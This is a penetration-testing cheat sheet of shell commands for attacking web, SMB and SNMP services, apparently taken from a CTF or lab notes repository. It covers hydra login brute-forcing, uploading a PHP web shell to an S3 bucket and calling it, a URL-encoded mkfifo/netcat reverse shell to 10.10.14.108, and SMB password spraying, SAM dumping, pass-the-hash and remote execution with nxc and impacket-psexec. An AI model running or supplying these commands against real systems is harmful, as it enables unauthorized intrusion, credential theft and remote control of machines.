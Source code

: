```bash
$ hydra -l admin -P rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V

# Wordpress Scan
$ wpscan --url https://$IP --random-user-agent --ignore-main-redirect --api-token <token>

# AWS Web Service Bucket
$ aws configure
$ aws --endpoint=http://s3.abc.com s3 ls
$ aws --endpoint=http://s3.abc.com s3 ls s3://abc.com
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
$ aws --endpoint=http://s3.abc.com  s3 cp shell.php s3://abc.com
$ curl http://abc.com/shell.php?cmd=id
$ nc -nvlp 1234
$ rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.108+1234+>/tmp/f
```

##### SMB | Ports 139, 445
```bash
$ smbclient -L \\$IP -U "" -N -p 12445
$ smbclient '//$IP/C' -p 12445

$ smbmap -H $IP
$ smbmap -u "username" -p "password" -H $IP
$ smbmap -H $IP -u null

$ enum4linux -a -M -l -d $IP 2>&1
$ enum4linux -a -u "" -p "" $IP && enum4linux -a -u "guest" -p "" $IP

$ nxc smb $IP
$ nxc smb $IP -u "" -p "" --shares
$ nxc smb $IP -u 'guest' -p '' --users
$ nxc smb $IP -u users.txt -p 'Pass!' --local-auth --continue-on-success
$ nxc smb $IP -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
$ nxc smb $IP/24 -u administrator -p 'Password123!' --loggedon-users
$ nxc smb $IP -u administrator -p 'Password123!' --sam
$ nxc smb $IP -u Administrator -H <hash>
$ nxc smb dc.abc.org -u '' -p '' --shares
# spider and export all files
$ nxc smb $IP -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
# list all files
$ nxc smb $IP -u 'user' -p 'pass' -M spider_plus

$ impacket-psexec administrator:'Password123!'@$IP
```

##### SNMP | Port 161 UDP
```bash
$ nmap --script snmp-* -sU -p161 $IP
$ snmpwalk -c public -v1 $IP
$ snmpcheck -t $IP -c public # Better than snmpwalk
$ snmpwalk -c public -v1 -t 10 $IP # Displays entire MIB tree 

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports
$ snmpwalk -c public -v1 $IP <MIB>
```
